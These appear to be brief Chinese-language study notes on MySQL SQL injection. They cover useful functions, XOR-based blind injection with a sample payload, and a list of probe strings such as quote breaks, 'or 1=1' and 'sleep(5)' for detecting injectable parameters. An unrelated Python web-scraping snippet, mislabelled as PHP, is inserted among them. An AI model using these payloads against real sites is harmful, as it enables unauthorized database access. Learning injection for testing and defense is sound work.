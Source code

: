 # SQL注入

## MSYQL注入

### 常用函数

截取字符的函数:substr()

ascii编码:ASCII()

延迟函数:sleep()

```php
url = "https://aiqicha.baidu.com/company_detail_30501828527322"
res = requests.get(url=url, headers=headers).text
print(res)
# pattern = r'"website":"crcebg.crcc.cn","telephone":"88779803"'
print(re.match('"website":"(.*?)","telephone":".*?"', res))
```



### 异或注入

异或运算规则

```sql
1^1=0 0^0=0 0^1=1
1^1^1=0 1^1^0=0
```

构造payload

```sql
'^ascii(mid(database(),1,1)=98)^0
1^注入语句^1 
```



### 注入流程

#### 判断注入

```sql
?id=1' 
?id=1" 
?id=1') 
?id=1") 
?id=1' or 1#
?id=1' or 0#
?id=1' or 1=1#
?id=1' and 1=2#
?id=1' and sleep(5)#
?id=1' and 1=2 or ' 
?id=1\
```
